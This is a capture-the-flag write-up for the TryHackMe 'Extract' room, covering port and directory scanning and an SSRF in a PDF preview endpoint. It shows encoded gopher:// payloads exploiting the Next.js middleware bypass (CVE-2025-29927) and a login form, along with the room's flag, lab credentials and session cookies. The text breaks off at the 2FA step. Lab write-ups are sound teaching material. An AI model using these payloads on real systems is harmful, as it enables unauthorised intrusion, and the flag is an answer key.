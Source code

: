 # 🕵️ Extract

* Solving [EXTRACT](https://tryhackme.com/room/extract)

## Discovery

1. First of all, Lets Find Open Ports: `nmap -p- -sV $TARGET` 🎯
```
Nmap scan report for $TARGET
Host is up (0.00024s latency).
Not shown: 65533 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.6p1 Ubuntu 3ubuntu13.11 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.58 ((Ubuntu))
MAC Address: 02:79:29:14:25:7F (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

2. By checking Web Port(**80**) with `http://$TARGET`, It seems PDFs  are loaded From: `http://$TARGET/preview.php?url=http%3A%2F%2Fcvssm1%2Fpdf%2Fdummy.pdf`. Possibly the website is vulnerable to **Path Traversal** or **SSRF** 🔥

![Website View](images/02-web.png)
![Burpsuite View](images/02-ssrf.png)

3. I tested all [PHP Wrappers](https://www.php.net/manual/en/wrappers.php) but nothing found! so I decided to dig deeply into directories! 😅

![PHP Wrappers](images/03-wrapper.png)

4. Next, I tried Finding Hidden Directories Using [RAFT Medium Directory List](https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/raft-medium-directories.txt) 🔒
```sh
ffuf -w raft-medium-directories.txt -u "http://$TARGET/FUZZ/"

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v1.3.1
________________________________________________

 :: Method           : GET
 :: URL              : http://$TARGET/FUZZ/
 :: Wordlist         : FUZZ: raft-medium-directories.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405
________________________________________________

pdf                     [Status: 200, Size: 0, Words: 1, Lines: 1]
javascript              [Status: 403, Size: 277, Words: 20, Lines: 10]
icons                   [Status: 403, Size: 277, Words: 20, Lines: 10]
management              [Status: 403, Size: 14, Words: 2, Lines: 1]
server-status           [Status: 403, Size: 277, Words: 20, Lines: 10]
```

5. I could Find **2** valuable Directories, but we don't have direct access to them. 😵
```
management
server-status
```

6. But, PDF Preview link may be able to load other URLs for us! 👍🏻
```
management:
http://$TARGET/preview.php?url=http%3A%2F%2Fcvssm1%2Fmanagement%2F

server-status:
http://$TARGET/preview.php?url=http%3A%2F%2Fcvssm1%2Fserver-status%2F
```

![Management Page](images/06-management.png)

8. I tried finding more directories with [RAFT Large Directory List](https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/raft-large-directories.txt), But nothing fancy showed up! Only the `localhost` keyword was blocked, so I didn't fall into that **Rabbit Hole** anymore! 🐰

9. A new Idea! Lets Brute-Force **Ports** on host, **Internally**! 🤌
```sh
seq 1 65535 > ports.txt
ffuf -w ports.txt -u "http://$TARGET/preview.php?url=http%3A%2F%2F127.0.0.1:FUZZ" -fw 1

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v1.3.1
________________________________________________

 :: Method           : GET
 :: URL              : http://$TARGET/preview.php?url=http%3A%2F%2F127.0.0.1:FUZZ
 :: Wordlist         : FUZZ: ports.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405
 :: Filter           : Response words: 1
________________________________________________

80                      [Status: 200, Size: 1735, Words: 304, Lines: 65]
10000                   [Status: 200, Size: 6131, Words: 104, Lines: 1]
```
**Attention**: `-fl 1` didn't work, because response on port `10000` has only `1` line of code.

10. Now, Lets Check Port `10000` on Browser: `http://$TARGET/preview.php?url=http://127.0.0.1:10000` 👀

![API Internal](images/10-api.png)

11. There is a Hidden API Here, But Accessing `http://127.0.0.1:10000/customapi` needs **Authentication** as the Image above says it loud and clear! 👂

## Flag 1 ⛳️

12. By Checking HTML, It seems the website is based on `Next.JS`. First vulnerability to check is [CVE-2025-29927](https://projectdiscovery.io/blog/nextjs-middleware-authorization-bypass). We can this security issue by sending request below: 🧨
```
GET /customapi HTTP/1.1
Host:127.0.0.1:10000
X-Middleware-Subrequest: middleware
```

13. Everything seems in order until you realize, There is **NO** way to send **HTTP Headers** in ssrf on this website (YET)! 😱

14. Don't worry, By diving in OLD Internet Protocols and PHP Wrappers. I could find `gopher://` which provides the capability of sending requests over tcp, specially `HTTP`. For Learning More About `gopher://`, check links in **References** section. 🔎

15. Lets use [CyberChef](https://gchq.github.io/CyberChef/) for creating `gopher` payloads by keeping conditions below: ✅
- ☑️ Double Encode Payloads
- ☑️ Convert `&` into `%26`
- ☑️ Line Endings should be **CRLF**

```
gopher://127.0.0.1:10000/_GET /customapi HTTP/1.1
Host:127.0.0.1:10000
X-Middleware-Subrequest: middleware

```

![gopher ssrf](images/15-next-js-exploit.png)

```
gopher://127.0.0.1:10000/_GET%2520/customapi%2520HTTP/1.1%250D%250AX-Middleware-Subrequest:%2520middleware%250D%250A
```

16. Now, we need to exploit the vulnerability on target and access the **API** page: `http://$TARGET/preview.php?url=gopher://127.0.0.1:10000/_GET%2520/customapi%2520HTTP/1.1%250D%250AX-Middleware-Subrequest:%2520middleware%250D%250A` 🔥

![Next.js Exploit](images/16-req.png)

17. Nice, We Got the Flag 1 🚀!
```
THM{363bec60df12c2cadbe9ff35393fa468}
```

18. Save The HTML in File and open it, We have more Than Flag here (CREDENTIALS). 😈
```
U: librarian
P: L1br4r1AN!!
```

![Credentials](images/18-html.png)

## Flag 2 ⛳️

20. In the `/management`, There is a nice Login form: `http://10.10.92.204/preview.php?url=http://127.0.0.1/management/` 🔐

![Management](images/06-management.png)

21. We Have 2 Fields, `username` and `password`. Let's Login using `gopher://`. 📝
```
gopher://127.0.0.1:80/_POST /management/index.php HTTP/1.1
Host: 127.0.0.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 43
Connection: close

username=librarian&password=L1br4r1AN%21%21
```

![management login](images/21-login.png)

**Attention**: Convert `&` to `%26` on burp when sending.

```
gopher://127.0.0.1:80/_POST%2520/management/%2520HTTP/1.1%250D%250AHost:%2520127.0.0.1%250D%250AContent-Type:%2520application/x-www-form-urlencoded%250D%250AContent-Length:%252043%250D%250A%250D%250Ausername=librarian%26password=L1br4r1AN%252521%252521
```


22. Response redirects into `/2fa.php` with Cookies: 🍪
```
HTTP/1.1 302 Found
Date: Mon, 20 Oct 2025 14:44:32 GMT
Server: Apache/2.4.58 (Ubuntu)
Set-Cookie: PHPSESSID=qrjv6vf9nk2oh0bgmqomalmchh; path=/
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate
Pragma: no-cache
Set-Cookie: auth_token=O%3A9%3A%22AuthToken%22%3A1%3A%7Bs%3A9%3A%22validated%22%3Bb%3A0%3B%7D; expires=Mon, 20 Oct 2025 15:44:32 GMT; Max-Age=3600; path=/
Location: 2fa.php
Content-Length: 0
Content-Type: text/html; charset=UTF-8
```

![redirect to 2fa](images/22-login-redir-2fa.png)

23. I built a **GET** request with cookies to access `/2fa.php`. 🤖
```
gopher://127.0.0.1:80/_GET /management/2fa.php HTTP/1.1
Host: 127.0.0.1
Cookie: auth_token=O%3A9%3A%22AuthToken%22%3A1%3A%7Bs%3A9%3A%22validated%22%3Bb%3A0%3B%7D; PHPSESSID=u8todb9p9lq3r4jnup573sk6pf;

```

![2fa page req](images/23-redir-to-2fa.png)

```
http://$TARGET/preview.php?url=gopher://127.0.0.1:80/_GET%2520/management/2fa.php%2520HTTP/1.1%250D%250AHost:%2520127.0.0.1%250D%250ACookie:%2520auth_token=O%25253A9%25253A%252522AuthToken%252522%25253A1%25253A%25257Bs%25253A9%25253A%252522validated%252522%25253Bb%25253A0%25253B%25257D;%2520PHPSESSID=u8todb9p9lq3r4jnup573sk6pf;%250D%250A
```

![2fa page](images/23-2fa.png)

